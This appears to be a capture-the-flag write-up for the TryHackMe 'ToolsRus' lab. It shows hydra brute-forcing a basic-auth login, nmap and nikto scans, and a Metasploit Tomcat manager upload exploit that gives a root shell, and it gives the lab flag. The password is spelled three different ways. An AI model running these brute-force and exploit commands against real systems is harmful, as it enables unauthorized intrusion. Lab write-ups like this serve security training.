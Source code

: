 ```yaml
---
title: Write-Up [THM] ToolsRus
template: "post"
date: "2020-08-28"
draft: false
category: "Write-Ups, TryHackMe"
tags:
  - "TryHackMe"
  - "Web"
  - "dirbuster"
  - "nikto"
  - "metasploit"
  - "hydra"
social-image: "/media/thm/toolsRus/theme.png"
description: "It's a write-up about the room : [Try Hack Me - Room : ToolsRus](https://tryhackme.com/room/toolsRus)"
---
```


It's a write-up about the room : [Try Hack Me - Room : ToolsRus](https://tryhackme.com/room/toolsRus)

# [Task 1] ToysRus

![Task 1](/media/thm/toolsRus/task-1.png)


First, we deploy the machine.

* What directory can you find, that begins with a "g"?

We use `Dirbuster` with : 

```
Target Url : http://ip_machine:80/
File with lists of dirs/files : directory-list-2.3-medium.txt
Dir to start with : /
File extension : php
```

The directory that begins with a "g" is **guidelines**.

* Whose name can you find from this directory?

Go to : `http://ip_machine/guidelines` and find the message : 

```
Hey bob, did you update that TomCat server? 
```   

Therefore the name is **bob**.

* What directory has basic authentication?

With dirbuster, we find the directory **protected** which needs basic authentication.

* What is bob's password to the protected part of the website?

We use `hydra` in a terminal : `hydra -l bob -P rockyou.txt -f ip_machine http-get /protected/`  
We find **bubbles** as password.

* What other port that serves a webs service is open on the machine?

We use nmap to see all the ports : ` nmap -sV ip_machine`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The other port that serves a webs service which is open is the port **1234**.

* Going to the service running on that port, what is the name and version of the software?

Go on `http://ip_machine:1234/`.  
On that page we find the name and the version of the software : **Apache Tomcat/7.0.88**.

* Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many documentation files did Nikto identify?

Go on `http://ip_machine:1234/manager/html` with the credentials :

```
login : bob
password : bubble
```

We could also use : `nikto -h http://ip_machine:1234/manager/html -id bob:bublles`.
We find **5** documentation files.


* What is the server version (run the scan against port 80)?

With nmap, we find the server version **Apache/2.4.18** for the port 80.

* What version of Apache-Coyote is this service using? 

With nmap also, we find the service version of Apache-Coyote which is **1.1**.

* Use Metasploit to exploit the service and get a shell on the system. What user did you get a shell as?

To launch metasploit on the console : `msfconsole`.  
After we use this different command : 

```
search tomcat  
use multi/http/tomcat_mgr_upload
show options
set httpPassword bubbles
set httpUsername bob
set RHOSTS ip_machine
SET RPORT 1234
run
```

Then , we can use the shell by typing `shell`.
To see what user we are, we use `whoami`.   
The output is **root**. 

* What text is in the file /root/flag.txt ?

We use cat to see the flag : `cat /root/flag.txt`.  
The flag is **ff1fc4a81affcc7688cf89ae7dc6e0e1**.